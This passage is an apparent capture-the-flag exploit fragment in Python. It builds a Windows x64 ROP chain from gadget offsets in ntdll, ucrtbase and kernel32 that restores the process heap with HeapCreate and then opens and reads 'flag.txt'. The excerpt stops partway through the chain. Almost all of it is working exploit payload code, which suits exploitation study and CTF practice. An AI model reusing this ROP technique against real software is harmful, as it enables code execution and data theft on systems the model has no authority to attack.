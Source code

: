 ```python

    # restore Heap for WINAPI internal usage
    HeapCreate_addr   = kernel32 + 0x1e500 # IAT to KERNELBASE!HeapCreate

    # https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/crt-alphabetical-function-reference
    # ucrtbase.dll contains POSIX functions like open(), read(), write()...
    open_addr  = ucrtbase + 0xa1ae0
    read_addr  = ucrtbase + 0x16140
    write_addr = ucrtbase + 0x14b30
    exit_addr  = ucrtbase + 0x1b8c0

    pop_rcx_ret = ntdll + 0x21527
    pop_rdx_ret = ucrtbase + 0xa9eb2
    pop_r8_ret  = ntdll + 0x4d6cf
    store_rdx_rax_ret = ntdll + 0x88f5c
    store_rcx_plus8_rax_ret = ucrtbase + 0x4a721
    add_rsp_0x28_ret = ntdll + 0x63c5

    process_heap = _PEB + 0x30    # _PEB->ProcessHeap
    crt_heap = ucrtbase + 0xeb570 # ucrtbase!_acrt_heap

    rop_chain = flat([
        pop_rcx_ret,
        0,
        pop_rdx_ret,
        0,
        pop_r8_ret,
        0,
        HeapCreate_addr,   # rax = HeapCreate(0, 0, 0)

        pop_rdx_ret, 
        process_heap,
        store_rdx_rax_ret, # *process_heap = rax

        pop_rdx_ret, 
        crt_heap,
        store_rdx_rax_ret, # *crt_heap = rax

        # rax = open("flag.txt", _O_RDONLY, _S_IREAD)
        pop_rcx_ret,
        flag_addr,
        pop_rdx_ret,
        0,
        pop_r8_ret,
        0x100,
        open_addr,
        add_rsp_0x28_ret,
        0, 0, 0, 0, 0,

        # read(rax, flag_buf, 0x80)
        pop_rcx_ret,
        stack_addr + (8 * 29),
        store_rcx_plus8_rax_ret,
        pop_rcx_ret,
        0x12345678, # will replace to fd
        pop_rdx_ret, 
        flag_buf,
        pop_r8_ret,
        0x80,
        read_addr,
        add_rsp_0x28_ret,
        0, 0, 0, 0, 0,
```